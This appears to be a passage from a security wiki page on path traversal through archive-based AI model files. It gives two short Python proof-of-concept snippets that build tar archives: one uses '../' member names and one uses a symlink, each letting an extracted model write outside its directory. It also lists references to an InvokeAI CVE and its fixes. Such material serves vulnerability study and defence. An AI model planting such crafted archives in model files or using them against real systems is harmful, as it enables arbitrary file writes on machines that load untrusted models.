 ## Models to Path Traversal

As commented in [**this blog post**](https://blog.huntr.com/pivoting-archive-slip-bugs-into-high-value-ai/ml-bounties), most models formats used by different AI frameworks are based on archives, usually `.zip`. Therefore, it might be possible to abuse these formats to perform path traversal attacks, allowing to read arbitrary files from the system where the model is loaded.

For example, with the following code you can create a model that will create a file in the `/tmp` directory when loaded:

```python
import tarfile

def escape(member):
    member.name = "../../tmp/hacked"     # break out of the extract dir
    return member

with tarfile.open("traversal_demo.model", "w:gz") as tf:
    tf.add("harmless.txt", filter=escape)
```

Or, with the following code you can create a model that will create a symlink to the `/tmp` directory when loaded:

```python
import tarfile, pathlib

TARGET  = "/tmp"        # where the payload will land
PAYLOAD = "abc/hacked"

def link_it(member):
    member.type, member.linkname = tarfile.SYMTYPE, TARGET
    return member

with tarfile.open("symlink_demo.model", "w:gz") as tf:
    tf.add(pathlib.Path(PAYLOAD).parent, filter=link_it)
    tf.add(PAYLOAD)                      # rides the symlink
```

## References

- [OffSec blog – "CVE-2024-12029 – InvokeAI Deserialization of Untrusted Data"](https://www.offsec.com/blog/cve-2024-12029/)
- [InvokeAI patch commit 756008d](https://github.com/invoke-ai/invokeai/commit/756008dc5899081c5aa51e5bd8f24c1b3975a59e)
- [Rapid7 Metasploit module documentation](https://www.rapid7.com/db/modules/exploit/linux/http/invokeai_rce_cve_2024_12029/)
- [PyTorch – security considerations for torch.load](https://pytorch.org/docs/stable/notes/serialization.html#security)

{{#include ../banners/hacktricks-training.md}}